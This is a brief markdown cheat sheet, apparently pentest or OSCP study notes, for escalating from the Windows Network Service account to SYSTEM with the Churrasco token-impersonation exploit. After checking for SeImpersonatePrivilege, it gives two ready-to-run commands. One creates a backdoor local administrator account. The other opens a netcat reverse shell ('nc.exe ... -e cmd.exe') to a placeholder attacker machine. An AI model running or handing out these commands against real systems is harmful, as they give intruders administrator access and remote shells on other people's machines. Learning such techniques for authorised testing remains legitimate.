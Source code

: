 #### Privilage escalation for *nt authority\network service*
Network Service account is a special built-in account that has reduced privileges similar to an authenticated user account. This limited access helps safeguard the computer if an attacker compromises individual services or processes.


```
c:> whoami
whoami
nt authority\network service
```
#### Check /priv
```
c:> whoami /priv
whoami /priv

check for SeImpersonatePrivilage is Enabled
```

#### Upload *churrasco.exe*
- https://github.com/Re4son/Churrasco

#### Use *add user to localgroup Administrator*
```
churrasco.bin "net user oscp oscp /add && net localgroup Administrators oscp /add"
```

#### Use *nc connection*
```
churrasco.exe "nc.exe <your_machine_ip> <your_machine_port> -e cmd.exe"
```
